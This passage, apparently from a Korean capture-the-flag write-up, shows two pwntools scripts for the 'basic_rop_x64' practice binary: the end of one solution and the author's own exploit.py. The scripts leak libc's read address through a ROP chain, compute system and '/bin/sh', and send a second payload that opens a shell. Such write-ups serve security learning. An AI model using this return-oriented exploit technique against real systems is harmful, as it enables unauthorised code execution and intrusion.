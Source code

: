 ```python

slog("read", read)
slog("libc base", lb)
slog("system", system)
slog("/bin/sh", binsh)

# Stage 2
payload: bytes = b'A' * 0x48

# system("/bin/sh")
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```

- 내가 작성한 `exploit.py`

```python
from pwn import *

p = process('./basic_rop_x64', env = {"LD_PRELOAD" : "./libc.so.6"})

e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6', checksec=False)

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']
main = e.symbols["main"]

read_offset = libc.symbols['read']
system_offset = libc.symbols['system']
sh = list(libc.search(b"/bin/sh"))[0]

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881

payload = b'A' * 0x40 + b'B' * 0x8
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(5)
payload += p64(write_plt)

payload += p64(main)

p.send(payload)

p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6)+b'\x00'*2)
lb = read - read_offset
system = lb + system_offset
binsh = sh + lb

payload = b'A' * 0x48
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
# p.recvuntil(b'A' * 0x40)

```